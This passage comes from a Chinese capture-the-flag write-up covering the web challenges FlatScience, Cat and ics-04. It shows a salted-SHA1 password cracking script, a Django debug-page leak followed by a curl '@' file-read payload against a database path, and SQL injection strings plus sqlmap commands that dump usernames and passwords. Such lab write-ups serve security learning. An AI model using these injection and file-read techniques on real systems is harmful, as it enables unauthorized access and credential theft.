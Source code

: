 ```python
			with open(file,'r',encoding='utf-8') as f:
				for line in f:
					words=line.split(' ')
					for word in words:
						if(hashlib.sha1((word+'Salz!').encode('utf-8')).hexdigest()=='3fab54a50e770d830c0416df817567662a9dc85c'):
							print('[@]haha,i find it:{}'.format(word))
							exit()
							
if __name__=='__main__':
	searchPassword()
```
![](https://img-blog.csdnimg.cn/2020032800081642.png)
最后登录admin得到flag
![](https://img-blog.csdnimg.cn/20200328000932718.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
参考借鉴：
[攻防世界-web萌新-FlatScience(python处理pdf、sqlite注入)-Hack.lu-2017](https://blog.csdn.net/zz_caleb/article/details/89323133)
[[CTF题目总结-web篇]攻防世界：flatscience](https://blog.csdn.net/tch3430493902/article/details/103940495)

## Cat
一开始应该是一个ping命令，并且发现：
1. 正常 URL，返回 ping 结果
2. 非法 URL、特殊符号，返回 Invalid URL

![](https://img-blog.csdnimg.cn/20200328100939571.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
这里Django调试模式打开了，发现如果在输入框中值包含url编码，在?url=中请求大于%7F的字符都会造成Django报错。
在url中输入`?url=%80`,可以得到报错页面:
![](https://img-blog.csdnimg.cn/20200328103314592.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
得到信息：
```javascript
Request Method：POST
Request URL：http://127.0.0.1:8000/api/ping
Django Version：1.10.4
Exception Type：UnicodeEncodeError
Python Executable：/usr/bin/python
Python Version：2.7.12
```
是一个PHP调用Python的站，PHP通过CURL向django的站发送数据，那么就可以使用@进行文件传递，如果文件内容中有上述超出编码范围的字符，就会产生报错信息，实际上包含中文就会报错
ctrl+f搜索sql得到
![](https://img-blog.csdnimg.cn/20200328104222257.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
使用`?url=@/opt/api/database.sqlite3`
![](https://img-blog.csdnimg.cn/20200328104356309.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
参考：[攻防世界writeup——Web（持续更新）](https://blog.csdn.net/qq_42181428/article/details/89345094)
## ics-04
题目描述：工控云管理系统新添加的登录和注册页面存在漏洞，请找出flag
尝试admin发现失败，在找回密码处发现可以sql注入
`admin' or 1=1#`
![](https://img-blog.csdnimg.cn/20200328105402226.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
`-1' union select 1,2,3,4#`
![](https://img-blog.csdnimg.cn/20200328110221851.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
注入点是3，查询数据库发现没有回显，那么就用sqlmap跑一下
`python2 sqlmap.py -u "http://111.198.29.45:48163/findpwd.php" --data="username=1" --dbs`
![](https://img-blog.csdnimg.cn/20200328110827357.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
最终得到账号和密码：
`python2 sqlmap.py -u "http://111.198.29.45:48163/findpwd.php" --data="username=1" -D cetc004 -T user -C "username,password" --dump`